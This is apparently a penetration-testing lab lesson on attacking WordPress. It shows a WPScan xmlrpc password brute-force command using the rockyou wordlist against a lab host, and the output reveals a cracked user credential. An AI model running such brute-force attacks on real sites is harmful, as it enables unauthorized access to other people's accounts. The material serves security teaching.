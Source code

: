 # Attacking WordPress

We've confirmed that the company website is running on WordPress and have enumerated the version and installed plugins. Let's now look for attack paths and try to gain access to the internal network.

There are several ways we can abuse `built-in functionality` to attack a WordPress installation. We will cover login brute forcing against the `wp-login.php` page and remote code execution via the theme editor. These two tactics build on each other as we need first to obtain valid credentials for an administrator-level user to log in to the WordPress back-end and edit a theme.

***

## Login Bruteforce

WPScan can be used to brute force usernames and passwords. The scan report in the previous section returned two users registered on the website (admin and john). The tool uses two kinds of login brute force attacks, [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) and wp-login. The `wp-login` method will attempt to brute force the standard WordPress login page, while the `xmlrpc` method uses WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it’s faster.

```shell-session
$ sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local

[+] URL: http://blog.inlanefreight.local/ [10.129.42.195]
[+] Started: Wed Aug 25 11:56:23 2021

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - john / firebird1                                                                                           
Trying john / bettyboop Time: 00:00:13 <                                      > (660 / 14345052)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: john, Password: firebird1

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Wed Aug 25 11:56:46 2021
[+] Requests Done: 799
[+] Cached Requests: 39
[+] Data Sent: 373.152 KB
[+] Data Received: 448.799 KB
[+] Memory used: 221 MB

[+] Elapsed time: 00:00:23
```
